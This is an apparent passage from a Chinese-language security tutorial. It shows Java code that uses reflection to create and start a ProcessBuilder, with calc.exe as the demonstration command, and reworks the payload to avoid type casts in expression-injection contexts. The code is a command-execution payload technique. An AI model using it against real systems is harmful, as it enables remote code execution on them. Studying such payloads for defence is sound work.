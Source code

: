 ```java
import java.io.IOException;
import java.lang.reflect.InvocationTargetException;
import java.util.Arrays;
import java.util.List;

public class Test {
    public static void main(String[] args) throws IOException, ClassNotFoundException, NoSuchMethodException, InvocationTargetException, InstantiationException, IllegalAccessException {
        Class<?> clazz = Class.forName("java.lang.ProcessBuilder");
        ((ProcessBuilder)  clazz.getConstructor(List.class).newInstance(Arrays.asList("calc.exe"))).start();
    }
}
```

这里又存在一个问题，就是payload中用到了类型强转，有时候我们利用漏洞的时候（在表达式上线文中）是没有这种语法的。所以，要用反射来完成类型强转

思路：直接执行`start`方法，将执行对象传入进去，不需要类型强转

```java
package cn.test;


import java.io.IOException;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationTargetException;
import java.util.Arrays;
import java.util.List;

public class Test {
    public static void main(String[] args) throws IOException, ClassNotFoundException, NoSuchMethodException, InvocationTargetException, InstantiationException, IllegalAccessException {
        Class<?> clazz = Class.forName("java.lang.ProcessBuilder");
        Constructor<?> constructor = clazz.getConstructor(List.class);
        Object o = constructor.newInstance(Arrays.asList("calc.exe"));
        clazz.getMethod("start").invoke(o);
    }
}

// 简化payload
package cn.test;


import java.io.IOException;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationTargetException;
import java.util.Arrays;
import java.util.List;

public class Test {
    public static void main(String[] args) throws IOException, ClassNotFoundException, NoSuchMethodException, InvocationTargetException, InstantiationException, IllegalAccessException {
        Class<?> clazz = Class.forName("java.lang.ProcessBuilder");
        clazz.getMethod("start").invoke(clazz.getConstructor(List.class).newInstance(Arrays.asList("calc.exe")));
    }
}
```
